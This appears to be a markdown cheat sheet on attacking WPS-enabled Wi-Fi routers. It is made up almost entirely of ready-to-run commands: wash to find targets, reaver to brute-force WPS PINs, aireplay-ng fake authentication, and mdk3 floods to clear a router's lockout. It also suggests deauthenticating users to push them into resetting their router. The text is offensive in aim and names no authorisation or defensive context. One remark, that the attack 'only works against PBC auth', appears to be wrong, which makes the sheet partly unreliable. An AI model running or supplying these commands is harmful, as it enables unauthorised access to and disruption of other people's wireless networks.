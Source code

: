 # Exploiting WPS
## Bypassing Failed to associate issue
To view WPS-enabled wifi
`wash -i <interface-name>`

`reaver --bssid <access-point-mac-address> --channel <access-point-channel> -i <interface-name> -A`

`aireplay-ng --fakeauth 100 -a <access-point-mac-address> -h <your-mac-address> <interface-name>`

## Bypassing 0x3 and 0x4 Errors
`reaver --bssid <access-point-mac-address> --channel <access-point-channel> -i <interface-name> -A -vvv --no-nacks`

`aireplay-ng --fakeauth 100 -a <access-point-mac-address> -h <your-mac-address> <interface-name>`

This is for solving the error of a stuck reaver progress in its bruteforce.

## Bypassing WPS Lock
Bruteforcing the routers can lead to some routers locking after a number of failed attempts

Try to reset the router or get the user to reset their router via deauthentication

run the wash and reaver command to check

### Unlocking using MDK3
MDK3 is a tool designed to exploit a number of weakness in 802.11 protocol.

`mdk3 <interface-name> a -a <mac-address-of-access-point> -n`
`wash -i <interface-name>`
`reaver -b <mac-address-of-access-point> -c <channel> -i <interface-name>`




Most guaranteed attack is using reaver
Only works against PBC auth

`wash -i <interface-name>` => get mac address
`reaver --bssid <access-point-mac-address> --channel <channel-nnumber> -i <interface-name>`
manually associate with the access point when running reaver
`aireplay-ng --fakeauth 100 -a <access-point-mac-address> -h <interface-mac-address> <interface-name>`

add the -vvv option for more verbose output for easy troubleshooting